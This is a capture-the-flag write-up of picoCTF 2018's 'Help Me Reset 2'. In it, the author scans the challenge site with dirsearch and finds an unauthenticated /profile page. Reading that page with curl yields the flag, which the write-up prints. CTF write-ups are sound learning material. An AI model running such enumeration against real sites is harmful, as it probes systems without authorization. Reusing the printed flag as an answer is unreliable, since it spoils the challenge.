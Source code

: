 # Help Me Reset 2
Web Exploitation, 600 points

## Description:
> There is a website running at http://2018shell3.picoctf.com:52603 (link). We need to get into any user for a flag! 



## Solution:

The link led to a website which contained a login page, together with a "Forgot your password" mechanism.

The "Forgot your password" mechanism required a username to proceed.

None of the common usernames seemed to work, and both forms did not seem vulnerable to any common attacks.

At this point, I turned to some automated tools to scan the site. One of them was dirsearch, which scans the site for common URIs:
```console
# python3 dirsearch.py -u http://2018shell3.picoctf.com:52603/ -ext="*"

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: xt=* | Threads: 10 | Wordlist size: 6040

Error Log: /root/utils/dirsearch/logs/errors-18-10-24_23-23-21.log

Target: http://2018shell3.picoctf.com:52603/

[23:23:22] Starting: 
[23:31:20] 200 - 1019B  - /login
[23:31:25] 302 -  209B  - /logout  ->  http://2018shell3.picoctf.com:52603/
[23:33:21] 200 -  804B  - /profile
[23:33:45] 200 -  899B  - /reset

Task Completed
```

The profile page was accessible without any authentication needed:
```console
root@kali:/media/sf_CTFs/pico/Help_Me_Reset_2# curl -s http://2018shell3.picoctf.com:52603/profile | grep pico
<title>Congrats flag: picoCTF{i_thought_i_could_remember_those_a131a54c}</title>
  <h1>Congrats flag: picoCTF{i_thought_i_could_remember_those_a131a54c}</h1>
```

This is ironic, given the fact that the hint to the challenge says "Try looking past the typical vulnerabilities. Think about possible programming mistakes" and the expected solution (according to other writeups) is to use the maintainer username as appears in the site comments:
```console
root@kali:/media/sf_CTFs/pico/Help_Me_Reset_2# curl -s http://2018shell3.picoctf.com:52603/ | grep maintained
<!--Proudly maintained by goncalves-->
```

The flag: picoCTF{i_thought_i_could_remember_those_a131a54c}